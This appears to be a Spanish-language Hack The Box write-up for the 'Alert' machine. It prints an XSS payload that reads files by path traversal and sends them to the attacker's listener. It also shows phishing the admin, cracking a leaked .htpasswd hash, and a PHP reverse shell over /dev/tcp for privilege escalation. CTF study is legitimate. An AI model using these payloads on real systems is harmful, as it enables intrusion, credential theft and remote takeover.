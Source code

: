 ## Payload / CVE used
-  XSS(over markdown)
- Phishing 
---
Una vez localizado el xss probamos un exploit en el archivo de markdown 

```http
<script>  
fetch("http://alert.htb/messages.php?file=filepath")  
  .then(response => response.text())  
  .then(data => {  
    fetch("http://10.10.15.43:2323/?file_content=" + encodeURIComponent(data));  
  });  
</script>
```
El script hace lo siguiente:

- Obtiene el contenido de  la carpeta "messages" que devolvia un 403 Forbidden  (`http://alert.htb/messages.php?file=filepath`).
- Luego, toma ese contenido y lo reenvía como parámetro  a nuestro servidor en el puerto 2323 (`http://10.10.15.43:2323/`)

```bash
python3 -m http.server 2323   
Serving HTTP on 0.0.0.0 port 2323 (http://0.0.0.0:2323/) ...
```

Recibimos respuesta de nosotros mismos:
```bash
10.10.15.43 - - [29/Nov/2024 01:07:23] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.15.43 - - [29/Nov/2024 01:07:30] "GET /?file_content=%0A HTTP/1.1" 200 -
```
## Phishing
Podemos darle a boton de "share markdown" y nos devuelve un link que vamos a mandale al admin en "contact" 
(http://alert.htb/index.php?page=contact)
![[Pasted image 20241129010955.png]]
Nos devuelve conexion !

```bash
10.10.11.44 - - [29/Nov/2024 01:10:56] "GET /?file_content=%3Cpre%3E%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

Ahora sabemos que le podemos hacer un phishing al admin

Modificamos el script para sacar informacion
## .htpasswd

Vamos a buscar el .htpassword del subdominio statistics que vimos en el recon para sacar un hash

```http
<script>  
fetch("http://alert.htb/messages.php?file=./../../../../../../var/www/statistics.alert.htb/.htpasswd")  
  .then(response => response.text())  
  .then(data => {  
    fetch("http://10.10.15.43:2323/?file_content=" + encodeURIComponent(data));  
  });  
</script>

```

El archivo `.htpasswd` es utilizado en servidores web Apache para almacenar las credenciales de usuario y sus contraseñas, de modo que los usuarios puedan autenticarse cuando acceden a ciertas áreas del sitio protegido por autenticación básica. Este archivo se encuentra generalmente en el servidor (usualmente en un directorio fuera del acceso público) y contiene una lista de usuarios con sus contraseñas cifradas.
```bash

Serving HTTP on 0.0.0.0 port 2323 (http://0.0.0.0:2323/) ...
10.10.15.43 - - [29/Nov/2024 01:24:05] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.15.43 - - [29/Nov/2024 01:24:06] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.15.43 - - [29/Nov/2024 01:24:12] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.15.43 - - [29/Nov/2024 01:24:14] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.11.44 - - [29/Nov/2024 01:24:19] "GET /?file_content=%3Cpre%3E%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```




```
10.10.15.43 - - [29/Nov/2024 01:21:21] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.15.43 - - [29/Nov/2024 01:21:24] "GET /?file_content=%0A HTTP/1.1" 200 -
10.10.11.44 - - [29/Nov/2024 01:21:30] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -

```

El texto codificado en URL `%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` 
puede ser decodificado de la siguiente manera:

    %3C corresponde a <
    %3E corresponde a >
    %24 corresponde a $
    %2F corresponde a /
    %0A corresponde a un salto de línea (nueva línea)

Al decodificarlo, obtenemos el siguiente texto:

```http
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

Parece que tenemos un hash en md5 de apache

```java
$john -w=/usr/share/wordlists/rockyou.txt -format=md5crypt-long  hash
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (alber)     
1g 0:00:00:00 DONE (2024-11-29 01:30) 6.250g/s 17600p/s 17600c/s 17600C/s bebito..medicina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora podemos conectarnos por ssh como usuario : Albert
## Lateral Movement


## Netsat
```bash
albert@alert:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -        
```

Tenemos un jugoso 8080 donde vamos a mener el foucino 

```
ssh albert@alert.htb -L 8080:localhost:8080
```
![[Pasted image 20241129022709.png]]

https://github.com/neatnik/website-monitor

Dentro de la documentacion del github para monitor:

"Upload everything to your web server (except the `screen.png` file, which isn’t needed). Make sure that PHP has permission to write to the `monitors` directory (this is where monitor data is stored)."

vamos a buscar la carpeta monitors al sistema ya que php se comunica con la carpeta 

```
find / -type d -name "monitor" 2>/dev/null

### Respuesta
find / -type d -name "*monitor*" 2>/dev/null
/var/lib/systemd/deb-systemd-helper-enabled/mdmonitor.service.wants
/opt/website-monitor
/opt/website-monitor/monitors
/sys/kernel/slab/:A-0000192/cgroup/cred_jar(637:website-monitor.service)
/sys/kernel/slab/hugetlbfs_inode_cache/cgroup/hugetlbfs_inode_cache(637:website-monitor.service)
/sys/kernel/slab/:A-0001344/cgroup/UDPv6(637:website-monitor.service)
/sys/kernel/slab/sock_inode_cache/cgroup/sock_inode_cache(637:website-monitor.service)
/sys/kernel/slab/kmalloc-64/cgroup/kmalloc-64(637:website-monitor.service)
/sys/kernel/slab/radix_tree_node/cgroup/radix_tree_node(107:lvm2-monitor.service)
/sys/kernel/slab/radix_tree_node/cgroup/radix_tree_node(637:website-monitor.service)
/sys/kernel/slab/dentry/cgroup/dentry(637:website-monitor.service)
/sys/kernel/slab/dentry/cgroup/dentry(107:lvm2-monitor.service)
/sys/kernel/slab/:A-0000064/cgroup/anon_vma_chain(637:website-monitor.service)
/sys/kernel/slab/anon_vma/cgroup/anon_vma(637:website-monitor.service)
/sys/kernel/slab/:a-0000104/cgroup/buffer_head(107:lvm2-monitor.service)
/sys/kernel/slab/:a-0000104/cgroup/buffer_head(637:website-monitor.service)
/sys/kernel/slab/mm_struct/cgroup/mm_struct(637:website-monitor.service)
/sys/kernel/slab/inode_cache/cgroup/inode_cache(637:website-monito

....
```

La carpeta website-monitors parece promising vamos a echarle un vistazo
```
albert@alert:/opt/website-monitor$ ls -la .
total 96
drwxrwxr-x 7 root root        4096 Oct 12 01:07 .
drwxr-xr-x 4 root root        4096 Oct 12 00:58 ..
drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 8 root root        4096 Oct 12 00:58 .git
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates

```

Con permiso de escritura en la carpeta config creamos un archivo `reverse.php`

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.15.43/4444 0>&1'"); ?>
```

ahora realizo una peticion web al archivo `localhost:8080/config/reverse.php`

![[Pasted image 20241129025934.png]]
### Local enumeration

- local 8080 open port 127.0.0.1:8080

### Atack vector

- 

---


